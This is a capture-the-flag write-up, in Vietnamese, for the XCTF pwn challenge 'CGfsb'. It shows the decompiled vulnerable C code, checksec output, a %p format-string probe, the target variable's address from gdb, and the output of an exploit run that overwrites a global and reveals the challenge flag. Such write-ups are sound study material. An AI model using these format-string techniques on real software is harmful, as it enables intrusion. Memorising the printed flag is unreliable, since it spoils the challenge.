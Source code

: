 # XCTF - PWN Exercise - CGfsb

```c
#include<stdio.h>
int pwnme;

int __cdecl main(int argc, const char **argv, const char **envp)
{
  _DWORD buf[2]; // [esp+1Eh] [ebp-7Eh] BYREF
  __int16 v5; // [esp+26h] [ebp-76h]
  char s[100]; // [esp+28h] [ebp-74h] BYREF

  unsigned int v7; // [esp+8Ch] [ebp-10h]
  v7 = __readgsdword(0x14u);

  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  
  buf[0] = 0;
  buf[1] = 0;
  v5 = 0;
  memset(s, 0, sizeof(s));
  puts("please tell me your name:");
  read(0, buf, 0xAu);
  puts("leave your message please:");
  fgets(s, 100, stdin);
  printf("hello %s", (const char *)buf);
  puts("your message is:");
  printf(s);
  if ( pwnme == 8 )
  {
    puts("you pwned me, here is your flag:\n");
    system("cat flag");
  }
  else
  {
    puts("Thank you!");
  }
  return 0;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/7_CGfsb λ checksec CGfsb 
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/7_CGfsb/CGfsb'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Rất dễ để nhận ra có lỗi `format string` trên biến `s` và mục tiêu của chúng ta là làm giá trị của biến toàn cục `pwnme` = 8.

  +) Tìm xem chuỗi `s` bắt đầu từ parameter thứ mấy trên stack.

  +) Tìm địa chỉ của biến toàn cục `pwnme`.
    
```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/7_CGfsb λ ./CGfsb 
please tell me your name:
nigma
leave your message please:
AAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
hello nigma
your message is:
AAAA-0xff974ade-0xf7ebd580-0x1-(nil)-0x1-0xf7f0a990-0x696e0001-0xa616d67-(nil)-0x41414141-0x2d70252d-0x252d7025-0x70252d70
Thank you!
```

```
pwndbg> p &pwnme
$1 = (<data variable, no debug info> *) 0x804a068 <pwnme>
```

Chuỗi `s` bắt đầu từ parameter thứ 10 và biến toàn cục `pwnme` nằm ở địa chỉ `0x0804A068`. 

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/7_CGfsb λ python2 exploit.py 
[+] Opening connection to 111.200.241.244 on port 60401: Done
[*] Switching to interactive mode
hello nigma
your message is:
h\xa0\x04AAAA
you pwned me, here is your flag:

cyberpeace{b1d70a92eb0bedd3af590ff7c27b828e}
[*] Got EOF while reading in interactive
$  
```
